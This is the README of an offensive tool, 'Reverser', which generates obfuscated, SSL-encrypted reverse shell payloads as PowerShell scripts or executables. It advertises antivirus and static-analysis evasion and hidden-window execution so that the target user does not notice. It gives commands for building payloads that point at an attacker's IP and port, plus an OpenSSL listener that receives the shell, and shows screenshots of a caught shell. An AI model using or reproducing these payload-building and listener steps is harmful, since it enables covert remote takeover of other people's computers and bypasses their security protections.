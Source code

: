 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

# Installtion

Clone the repository:
```bash
git clone https://github.com/yourusername/Reverser.git
cd Reverser
```
Install the necessary dependencies:
```bash
pip install -r requirements.txt
```
Ensure Mono is installed:
```bash
sudo apt-get install mono-complete
```


## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload with Obfuscation**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Generating a Payload with Random Obfuscationn**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type <exe | ps1> -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet

# PoC:
Creating an obfuscated EXE file that contain a Reverse Shell:

![image](https://github.com/user-attachments/assets/64ff1b49-f1c8-401c-8423-ab851c51c9b9)


Running the EXE file, creating an encrypted connection:

![image](https://github.com/user-attachments/assets/1a1bbdc3-b571-4239-a141-04cec47b40ce)


Receiving Reverse shell:

![image](https://github.com/user-attachments/assets/640cbfae-fb92-4515-b2bd-7df87bec7cf3)




